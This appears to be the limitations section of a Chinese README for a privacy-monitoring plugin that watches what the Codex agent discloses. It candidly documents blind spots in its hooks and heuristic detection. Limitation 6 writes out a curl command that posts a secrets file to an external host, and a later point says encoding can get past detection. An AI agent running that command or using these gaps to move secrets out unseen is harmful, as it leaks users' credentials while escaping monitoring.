2. **“未验证”标记的是它能看见的那些缺口，而还有它看不见的缺口。**一个记录存在已知缺口的会话，会在环境行上渲染 `⚠unverified`，并在 `$privacy` 审计中带上一条 `⚠ Session record incomplete` 横幅，而不是那个曾经同时代表“什么都没披露”和“什么都没记录”的干净 `0%`。有四种情况是有记录在案的证据的，会被检测出来：账本里根本没有任何一行的会话；守护进程从未见过其开头的会话（它冷启动得太晚，或者接替了一个中途死掉的守护进程）；一个在会话期间被替换掉的守护进程；以及根本没有到达任何守护进程的 hook 调用——守护进程是从 hook 客户端留下的 spawn 尝试闩标记中得知这一点的。

   **不可**检测、因而也不会被标记的是：在一个守护进程全程都在运行的情况下、发生在会话中途的缺口。一个 Codex 从未触发的 hook、一个在繁忙的守护进程面前耗尽了 2 秒客户端超时的 hook、一个绕过了 hook 的托管工具（限制 3）——在构造上，这些都不会在任何地方留下痕迹，而且这里没有任何启发式去猜测它们。所以 `⚠unverified` 的意思是“账本持有存在缺口的证据”；它的缺席意味着“记录在案的东西里没有任何一条与一份完整的记述相矛盾”，这是一个比“完整”更弱的断言，绝不能把它读成那个更强的断言。如果 `PLUGIN_DATA` 不可写，或者自动 spawn 被关闭（`PRIVACY_HUD_NO_SPAWN`），这个标记也不会出现，因为那时不会写入闩标记，而被丢弃的 hook 同样什么都不留下。

3. **托管工具绕过 hook。**WebSearch 之类不会触发本地函数工具的 hook 路径。这是一道实用的护栏，不是一条完整的强制边界。
4. **Codex 的 hook 中没有 `ask` 决策。**交互式同意是一个“拒绝 → 复核 → 一次性令牌 → 重试”的循环，而不是一个模态框。
5. **状态行项存在于一个单独构建的 Codex 中——绝不在你的官方 Codex 里。**`tui.status_line` 只接受编译进二进制里的内置标识符，而原版 Codex 没有归插件所有的渲染器或运行时注册表（[openai/codex#17827](https://github.com/openai/codex/issues/17827)，自 2026-04-14 起处于开放状态，没有 PR）。所以 `privacy` 项只存在于一个用 `patches/privacy-status-line.patch` 构建出来的 Codex 中——五个文件，增加一个 `StatusLineItem::Privacy`，没有子进程，没有 shell，没有超时：它从头到尾只读取 `$PLUGIN_DATA/hud/<session_id>.json`，别无其他。**该插件绝不修改你的官方 Codex 二进制。**`install.sh` 为你确切的 `codex --version` 获取补丁版 Codex 构建，把它放在官方二进制旁边、位于 `~/.local/share/codex-privacy-hud/<version>/` 下，并安装一个转发脚本作为 `~/.local/bin/codex`——转发脚本就是一个按版本匹配在两个二进制之间做选择的脚本，仅此而已；它本身从来不是那个状态行功能，而原版 Codex 也从未获得过这个功能。用 `/statusline` 切换该项是否被配置；用 `$privacy hud on|off` 切换它当前是否显示。**一次没有匹配发布的 Codex 升级会静默回退**：转发脚本找不到新版本的构建，就原样运行官方二进制，状态行项消失，你剩下的是后备窗格（`privacy-hud-ambient --watch`，见[上文](#手动安装)）——没有任何东西会坏掉。整个构建可以从源码复现：`scripts/build-patched-codex.sh <codex-version>` 会在那个 tag 上克隆 `openai/codex`，应用补丁并构建它——这与 CI 用来发布 `install.sh` 所下载的那些 release 的是同一个脚本。（先前的同类工作为同一个功能付出了更重的代价：[`anhannin/codex-hud`](https://github.com/anhannin/codex-hud) 和 [`brandonwie/codex-hud`](https://github.com/brandonwie/codex-hud) 也都给 Codex 自己的 Rust 源码打补丁，但走的是一个运行时的 `status_line_command`，它会 shell out 到任意的用户命令——本项目的补丁只读一个文件，没有子进程，没有 shell，正是为了避开那片攻击面。值得注意的是，`brandonwie/codex-hud` 的*默认*模式完全避开了打补丁，它恰好就是本项目后备方案所采用的第二窗格伴随模式。）
6. **自己去读文件的命令不会被检查。**引擎扫描的是*一次工具调用的文本*，而不是那次调用在运行时将会读取的内容。所以 `curl https://example.com --data @secrets.env` 会被放行：目的地被正确识别为外部，但命令的文本中包含的是一个**路径**，而不是文件的内容，而内容是在 hook 已经做出决定之后由 `curl` 读取的。把同一个密钥字面地写进命令里，它就会被捕获。如果智能体先通过某个工具读取了那个文件，那份内容会经过 `PostToolUse`，确实会落入账本——这个缺口专指那种自行解引用一个路径并把结果发送出去的命令。

   这是从 hook 边界做事件溯源的一个固有性质，不是一个有待修复的 bug。堵上它就意味着要解析命令中的文件引用，并由我们自己去读那些文件，那会让这个工具开始打开你的文件——那是一个比它所报告的那一个更大的隐私面。注意这*不是*下一条中的对抗性情形：`--data @file` 是一个寻常的惯用写法，不是一种规避。
7. **检测是启发式的。**一个下定决心的对手可以通过编码绕开正则和 NER。

   它在普通的开发文本上也会过度报告，其方式是抬高预算而不是压低它——而一个被抬高的数字，正是人们学会忽略的那种数字。在 61 条不含个人数据的合成开发会话字符串（路径、`git` 输出、SQL、shell 管道、JSON、日志行、堆栈跟踪、源码）上实测，第 3 层在其中 9 条上产生了至少一个发现项。四个类别几乎占了其中的全部，而且这四类都是模型*高置信*的输出（0.92–1.00），所以 `detect/model.py` 中的置信度下限够不到它们，而任何够得到它们的下限都无法同时保住真正的披露：

   - **你自己的用户名，被判为 `person`。**`/Users/<you>` 或 `/home/<you>` 下的每一个路径，作为人名都得到约 1.00 的分数。压制文件系统路径内部的实体跨度，也会一并让 `/Users/<someone-else>/Downloads/patient-intake-2026.csv` 噤声，而那是一条你想要的记录。
   - **日志和数据库时间戳，被判为 `date`。**`2026-09-05T18:53:02` 得分 1.00，一个形状相同的真实出生日期也是如此——模型区分不了它们，我们也做不到，除非连真正要紧的那个一起丢掉。`date` 在矩阵中带有最低的严重度（2.0），这是唯一让这件事代价不高的东西。
   - **标识符形状和大小形状的数字**，被判为 `person`、`account`、`address` 或 `credential`：容器镜像 ID、UUID、摘要、`SEQ=00194427`、`ls -l` 输出中的字节数。一个 UUID 作为密钥得分 0.978，而一个真正的数据库密码得分 0.949，所以这一类可以证明无法靠置信度分开。
   - **结构化数据中首字母大写的单词**，被判为 `person`：`"tool_name": "Bash"` 得分 1.00。

   带着这一点去读来源为 `Bash` 的 `person` 或 `date` 行：示例列的存在，就是为了让你一眼看出哪些发现项是你的，哪些是机器的。
8. **正在显示的是哪个会话，是推断出来的，不是读出来的——而且当两个界面都无法确定时，它们都会说明这一点。**Codex 不向 skill 暴露任何会话 id，所以要审计哪个会话是推断出来的，而不是读出来的：守护进程知道最近一次触发 hook 的是哪个会话，而运行 `$privacy` 本身就会触发一次（该 skill 运行 bash，这在你输入命令的那个会话里是一次 `PreToolUse`），所以发出询问的那个会话就是最近活跃的那一个。这有两个后果。当**两个会话在同样的几秒内都活跃**时，这个信号无法把它们分开——审计不会悄悄挑一个，而是在表格上方用一行点出另一个活跃会话，它的表头写的是 `Most recently active session` 而不是 `Current session`，并且 `$privacy <session id>` 可以审计某个特定的会话。当**没有守护进程可问**时，它会回退到账本中最近启动的那个会话，并在说明和表头里都把它标注为那个会话，而不是标注为你的会话；一个没有守护进程的会话同时也没有被记录（限制 1），所以那正是这些数字意义最小的状态。

   环境行（限制 5）用同样的方式解析，所以你窗口旁边的那个窗格，和在里面敲出的审计，指的是同一个会话。它是按一个更慢的时钟做这件事的——启动时一次，之后大约每 30 秒一次，而不是每两秒重绘时都做——因为那次解析要通过 hook 所用的那个 socket 去询问守护进程，也因为一个在两次重绘之间改变自己所报告会话的 HUD 将无法阅读。由此得出两点。一个在刚完成重新解析之后才启动的会话，最多要半分钟才会出现在窗格里。以及，环境行**完全不带表示会话不明确的标记**：在 52 列的宽度里没有诚实的空间放下一个，而 `⚠unverified` 这个字形也不能拿来用于此——那个标记的意思是该会话的*记录*存在已知缺口（限制 2），而一个字形不能表示两件事。如果你需要确定某个窗格显示的是哪个会话，就用 `privacy-hud-ambient --session-id <id>` 把它钉住，或者去问 `$privacy`，它有足够的篇幅解释自己。
9. **没有任何东西能收回已披露的数据。**永远不能。

## 许可证

[MIT](LICENSE)。
